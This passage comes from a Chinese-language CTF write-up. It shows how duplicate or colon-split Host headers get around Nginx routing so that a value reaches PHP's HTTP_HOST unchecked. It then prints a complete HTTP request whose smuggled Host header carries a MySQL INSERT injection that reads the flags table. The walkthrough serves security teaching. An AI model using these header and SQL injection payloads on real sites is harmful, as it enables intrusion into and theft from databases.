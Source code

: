 这里给出解决这个问题的两个方法，也许还有更多新方法我没有想到，欢迎补充。

### 法1

Nginx在处理Host的时候，会将Host用冒号分割成hostname和port，port部分被丢弃。所以，我们可以设置Host的值为`2018.mhz.pw:xxx'"@example.com`，这样就能访问到目标Server块：

[![15190606828564.jpg](https://www.leavesongs.com/media/attachment/2018/02/20/d3ea0303-2829-4be5-90c4-8eb48be82cd9.bdc4dfdd5131.jpg)](https://www.leavesongs.com/media/attachment/2018/02/20/d3ea0303-2829-4be5-90c4-8eb48be82cd9.jpg)

如上图，成功触发SQL报错。



### 法2

当我们传入两个Host头的时候，Nginx将以第一个为准，而PHP-FPM将以第二个为准。

也就是说，如果我传入：

```
Host: 2018.mhz.pw
Host: xxx'"@example.com
```

Nginx将认为Host为`2018.mhz.pw`，并交给目标Server块处理；但PHP中使用`$_SERVER['HTTP_HOST']`取到的值却是`xxx'"@example.com`。这样也可以绕过：

[![15190608786400.jpg](https://www.leavesongs.com/media/attachment/2018/02/20/6b2e4a08-0436-40c2-a835-60be44b8e8e4.0a3ac76105eb.jpg)](https://www.leavesongs.com/media/attachment/2018/02/20/6b2e4a08-0436-40c2-a835-60be44b8e8e4.jpg)

这个方法我以前在某群里提到过，只有Nginx+PHP会出现这个问题，Apache的情况下将会是另一个样子，此处不展开讨论。



## 0x05 Mysql 5.7 INSERT注入方法

这是今天第三个trick。

既然已经触发了SQL报错，说明SQL注入近在眼前。通过阅读源码中包含的SQL结构，我们知道flag在flags表中，所以不废话，直接注入读取该表。

### 插入显示位

因为用户成功登录后，将会显示出该用户的邮箱地址，所以我们可以将数据插入到这个位置。发送如下数据包：

```json
POST /main/register HTTP/1.1
Host: 2018.mhz.pw
Host: '),('t123',md5(12123),(select(flag)from(flags)))#"@a.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=--------356678531
Content-Length: 176

----------356678531
Content-Disposition: form-data; name="username"

"a
----------356678531
Content-Disposition: form-data; name="password"

aaa
----------356678531--
```
